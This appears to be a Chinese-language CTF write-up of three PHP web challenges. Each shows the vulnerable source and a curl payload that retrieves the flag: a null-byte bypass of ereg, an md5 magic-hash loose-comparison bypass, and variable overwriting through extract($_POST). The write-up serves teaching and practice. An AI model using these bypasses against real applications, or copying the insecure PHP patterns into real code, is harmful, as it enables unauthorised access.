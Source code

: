 
## [/x00](http://teamxlc.sinaapp.com/web4/f5a14f5e6e3453b78cd73899bad98d53/index.php)
源代码要求1. 正则表达式开头到结尾只能包含1-9 2.同时包含`#biubiubiu`
```php
# Source
if (isset ($_GET['nctf'])) {
    if (@ereg ("^[1-9]+$", $_GET['nctf']) === FALSE)
        echo '必须输入数字才行';
    else if (strpos ($_GET['nctf'], '#biubiubiu') !== FALSE)   
        die('Flag: '.$flag);
    else
        echo '骚年，继续努力吧啊~';
}
```
题目有提示`\x00`。`egrep` 会为`\x00`匹配字符结束`$`；需要通过percent encoding传输`\x00`：
```shell
curl http://teamxlc.sinaapp.com/web4/f5a14f5e6e3453b78cd73899bad98d53/index.php?nctf=12222%00%23biubiubiu
```

## [bypass again](http://chinalover.sinaapp.com/web17/index.php)

```php
# Source
if (isset($_GET['a']) and isset($_GET['b'])) {
  if ($_GET['a'] != $_GET['b'])
    if (md5($_GET['a']) == md5($_GET['b']))
      die('Flag: '.$flag);
    else
      print 'Wrong.';
}
```
前面的两个float number format string应该派上用场了。
```shell
curl 'http://chinalover.sinaapp.com/web17/index.php?a=QNKCDZO&&b=s214587387a'
```

## [变量覆盖](http://chinalover.sinaapp.com/web18/index.php)

```html
<!-- Source -->
<?php if ($_SERVER["REQUEST_METHOD"] == "POST") { ?>
  <?php
  extract($_POST);
  if ($pass == $thepassword_123) { ?>
      <div class="alert alert-success">
          <code><?php echo $theflag; ?></code>
      </div>
  <?php } ?>
<?php } ?>
```
extract函数覆盖命名空间：
```shell
curl 'http://chinalover.sinaapp.com/web18/' -X POST -d 'pass=kke&thepassword_123=kke'
```
